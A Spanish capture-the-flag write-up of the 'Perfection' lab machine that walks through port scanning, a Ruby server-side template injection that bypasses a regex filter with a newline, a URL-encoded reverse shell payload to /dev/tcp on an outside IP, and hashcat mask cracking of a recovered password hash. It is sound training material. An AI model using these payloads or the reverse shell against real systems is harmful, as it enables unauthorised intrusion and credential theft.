Perfection es una sencilla máquina Linux que cuenta con una aplicación web con funcionalidad para calcular las puntuaciones de los estudiantes. Esta aplicación es vulnerable a la inyección de plantillas del lado del servidor (SSTI) mediante la omisión del filtro de expresiones regulares. Se puede obtener un punto de apoyo explotando la vulnerabilidad SSTI. Al enumerar al usuario se revela que forma parte del grupo `sudo`. Una enumeración posterior descubre una base de datos con hashes de contraseñas y el correo electrónico del usuario revela un posible formato de contraseña. Mediante un ataque de máscara en el hash, se obtiene la contraseña del usuario, que se aprovecha para obtener acceso `root`.


# Enumeración

Iniciamos con la enumeración de los puertos.

```c
❯ nmap -p- --open --min-rate 5000 -Pn -n -vvv 10.10.11.253 -oG allportsScan

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

```

Encontraremos que se tiene el 22 y 80 como puertos abierto y ejecutandose el servicio ssh y http en cada uno respectivamente.

```c
❯ nmap -p22,80 -sC -sV -vvv -Pn -n 10.10.11.253 -oN servicesScan


PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMz41H9QQUPCXN7lJsU+fbjZ/vR4Ho/eacq8LnS89xLx4vsJvjUJCcZgMYAmhHLXIGKnVv16ipqPaDom5cK9tig=
|   256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBqNwnyqGqYHNSIjQnv7hRU0UC9Q4oB4g9Pfzuj2qcG4
80/tcp open  http    syn-ack nginx
|_http-title: Weighted Grade Calculator
| http-methods: 
|_  Supported Methods: GET HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Puerto 80

Al visitar el sitio web encontraremos con el siguiente contenido:



Navegando entre las pestañas encontraremos una calculadora de grado ponderado



Esta petición la intercepte con burpSuite y trate de inyectar algún comando, pero me daba un respuesta de `Malicious input...`



Estuve variando las petición y me di cuenta que no es el comando lo que realmente bloquea, lo que bloquea es el carácter `;/=...` 



# Explotación

Antes debemos de revisar algunos payloads, además de que estamos ante el lenguaje de ruby. Teniendo en cuenta esto proseguimos con la explotación.

- [Server Templete Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby)

Ruby Regex

```ruby
irb(main):003:0> "test" =~ /^[a-zA-Z]+$/ 
=> 0
```

- **Expresión regular:** `^[a-zA-Z]+$`
    - `^` indica el comienzo de la cadena.
    - `[a-zA-Z]` indica que la cadena puede contener cualquier letra (mayúscula o minúscula).
    - `+` indica una o más ocurrencias de la clase de caracteres anterior.
    - `$` indica el final de la cadena.
- **Cadena:** `"test"`
- **Resultado:** `0`
    - La cadena `"test"` coincide completamente con la expresión regular.
    - `0` indica que la coincidencia se encuentra al principio de la cadena (índice 0).

```ruby
irb(main):004:0> "test\n{{}}" =~ /^[a-zA-Z]+$/ 
=> 0
```

- **Expresión regular:** `^[a-zA-Z]+$`
- **Cadena:** `"test\n{{}}"`
- **Resultado:** `0`
    - Aunque la cadena contiene caracteres adicionales (`\n{{}}`), la coincidencia todavía devuelve `0`. Esto se debe a que en Ruby, las expresiones regulares por defecto no funcionan en modo multilinea y sólo evalúan hasta la primera línea de texto por defecto.
    - `0` indica que la coincidencia se encuentra al principio de la cadena, es decir, `"test"` coincide con la expresión regular.
    - **Nota:** Este comportamiento no es el esperado generalmente y sugiere que el regex no está en modo multlinea, que se puede activar usando la bandera `/m`.

```ruby
irb(main):008:0> "test{{}}" =~ /^[a-zA-Z]+$/ 
=> nil
```

- **Expresión regular:** `^[a-zA-Z]+$`
- **Cadena:** `"test{{}}"`
- **Resultado:** `nil`
    - La cadena `"test{{}}"` no coincide con la expresión regular.
    - Esto se debe a que la expresión regular requiere que la cadena contenga solo letras (mayúsculas o minúsculas) desde el principio (`^`) hasta el final (`$`).
    - Los caracteres `{{}}` no están permitidos por la expresión regular, por lo tanto, no hay coincidencia.

La expresión regular `^[a-zA-Z]+$` se utiliza para verificar si una cadena consiste únicamente de letras (mayúsculas y minúsculas) desde el principio hasta el final. En los ejemplos dados:

- `"test"` coincide completamente con la expresión regular.
- `"test\n{{}}"` coincide solo hasta la primera línea debido al comportamiento por defecto de las expresiones regulares en Ruby.
- `"test{{}}"` no coincide debido a la presencia de caracteres no permitidos por la expresión regular.

Luego de entender como puede funcionar podemos hacer uso del siguiente payload

```c

<%= IO.popen('ls /').readlines()  %>
```

A esto antecediendo un salto de linea



Luego podemos usar el urlencode del mismo burpsuite o el sitio web de [url encode](
https://www.urlencoder.org/)

BurpSuite
```c
category1=test%0a%3c%25%3d%20%49%4f%2e%70%6f%70%65%6e%28%27%6c%73%20%2f%27%29%2e%72%65%61%64%6c%69%6e%65%73%28%29%20%20%25%3e&grade1=1&weight1=20&category2=s&grade2=3&weight2=20&category3=d&grade3=2&weight3=20&category4=c&grade4=4&weight4=20&category5=d&grade5=6&weight5=20
```

UrlEncode - Web Site:
```c
%0A%3C%25%3D%20IO.popen%28%27ls%20%2F%27%29.readlines%28%29%20%20%25%3E
```

Luego de tener en url encode podemos enviar la petición y veremos que efectivamente funciona:



Ahora intentaremos enviarnos una revershell
```c
\n
<%= IO.popen("bash -c 'exec bash -i &>/dev/tcp/10.10.14.15/443 <&1'").readlines()  %>
```

urlEncode:

```c
%0A%3C%25%3D%20IO.popen%28%22bash%20-c%20%27exec%20bash%20-i%20%26%3E%2Fdev%2Ftcp%2F10.10.14.15%2F443%20%3C%261%27%22%29.readlines%28%29%20%20%25%3E
```

Luego de tener nuestra revershell en urlencode podemos enviar la petición y debemos de obtener una shell.


# Escalada de privilegios

## Usuario susan


Enumerando e directorio del usuario actual (`susan`) podremos encontrar un archivo `pupilpath_credentials.db` en donde encontraremos credenciales



Estas credenciales estan encriptadas

```c
Susan Miller|abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
Tina Smith|dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57
Harry Tyler|d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393
David Lawrence|ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87a
Stephen Locke|154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8
```

También observamos que pertenecemos al grupo de `sudo`, esto nos viene bien ya que si logramos obtener las credenciales del usuario actual podremos escalar privilegios directamente.



Siguiendo enumerando observaremos un correo de `Susan`, en la que nos da una pista de cual es la contraseña en texto plano.




Haciendo uso de hashcat podremos crackear el hash del usuario `susan`:

```c
hashcat -m 1400 hash_susan.txt -a 3 "susan_nasus_?d?d?d?d?d?d?d?d?d"
```



Logramos obtener las credenciales de `susan`: 

```c
susan : susan_nasus_413759210
```

## Usuario : root



